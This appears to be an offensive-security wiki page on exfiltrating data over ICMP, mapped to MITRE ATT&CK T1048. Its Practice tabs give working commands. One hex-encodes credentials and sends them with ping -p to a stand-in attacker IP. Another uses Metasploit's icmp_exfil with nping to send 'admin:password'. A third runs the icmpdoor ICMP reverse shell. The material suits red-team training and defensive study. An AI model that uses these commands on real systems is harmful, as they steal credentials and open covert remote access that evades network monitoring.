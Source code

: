 ```yaml
---
description: MITRE ATT&CK™  - Exfiltration Over Alternative Protocol - Technique T1048
---
```


# Exfiltration over ICMP

## Theory

The Internet Control Message Protocol [ICMP](https://en.wikipedia.org/wiki/Internet_Control_Message_Protocol). It is a network layer protocol used to handle error reporting.

### ICMP Data Section

At a high level, an ICMP packet consists of multiple fields, including a **Data** section. This section can contain arbitrary information, such as diagnostic messages, test payloads, or even copied portions of other network packets (e.g., IPv4 headers for error reporting). The following diagram illustrates the **Data** section, which is **optional** but can be leveraged for various purposes, including covert communication.

Notably, **RFC 792** (which defines ICMP) does not impose any strict requirements on the content of the Data field. This means that **any data can be transmitted**, as long as the overall structure of the ICMP packet remains valid.

<div align="center"><figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure></div>

## Practice

{% tabs %}
{% tab title="Manualy" %}
We can, on linux targets, exfiltrate datas with the `-p` options of the `ping` command.

```bash
root@victime$ echo 'root:p@ssw0rd!' | xxd -p
726f6f743a7040737377307264210a

root@victime$ ping <ATTACKING_IP> -c 1 -p 726f6f743a7040737377307264210a
```

{% hint style="danger" %}
Note that the -p option is only available for **Linux operating systems**. We can confirm that by checking the ping's help manual page.
{% endhint %}

On the attacking machine, we can receive the data as follows

```bash
# Listen for ping and save to pass.pcap
v4resk@kali$ sudo tcpdump icmp -i <INTERFACE> -w pass.pcap

# Extract data field and Hex decode
v4resk@kali$  tshark -r pass.pcap -Y "icmp" -T fields -e data | xxd -r -p
```
{% endtab %}

{% tab title="metasploit" %}
let's set up the Metasploit framework by selecting the `icmp_exfil` module to make it ready to capture and listen for ICMP traffic. One of the requirements for this module is to set the `BPF_FILTER` option, which is based on TCPDUMP rules, to capture only ICMP packets and ignore any ICMP packets that have the source IP of the attacking machine as follows.

```bash
msf5 > use auxiliary/server/icmp_exfil
msf5 auxiliary(server/icmp_exfil) > set BPF_FILTER icmp and not src ATTACKING_IP
BPF_FILTER => icmp and not src ATTACKBOX_IP

msf5 auxiliary(server/icmp_exfil) > run
```

On the target, we can now exfiltrate data.

```bash
#First, send the BOF trigger
v4resk@victime$ sudo nping --icmp -c 1 ATTACKING_IP --data-string "BOFfile.txt"

#Datas
v4resk@victime$ sudo nping --icmp -c 1 ATTACKING_IP --data-string "admin:password"

#EOF end signal
v4resk@victime$ sudo nping --icmp -c 1 ATTACKING_IP --data-string "EOF"
```
{% endtab %}

{% tab title="icmpdoor" %}
[ICMPDoor](https://github.com/krabelize/icmpdoor) is an open-source reverse-shell written in Python3 and scapy. The tool uses the same concept we discussed earlier, where an attacker utilizes the Data section within the ICMP packet. The only difference is that an attacker sends a command that needs to be executed on a victim's machine. Once the command is executed, a victim machine sends the execution output within the ICMP packet in the Data section.

On the victime machine:

```bash
victime@target$ sudo icmpdoor -i eth0 -d ATTACKING_IP
```

On the attacking machine:

```bash
veresk@kali$ sudo icmp-cnc -i eth1 -d VICTIME_IP
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://blog.bwlryq.net/posts/icmp_exfiltration/" %}

{% embed url="https://tryhackme.com/room/dataxexfilt/" %}
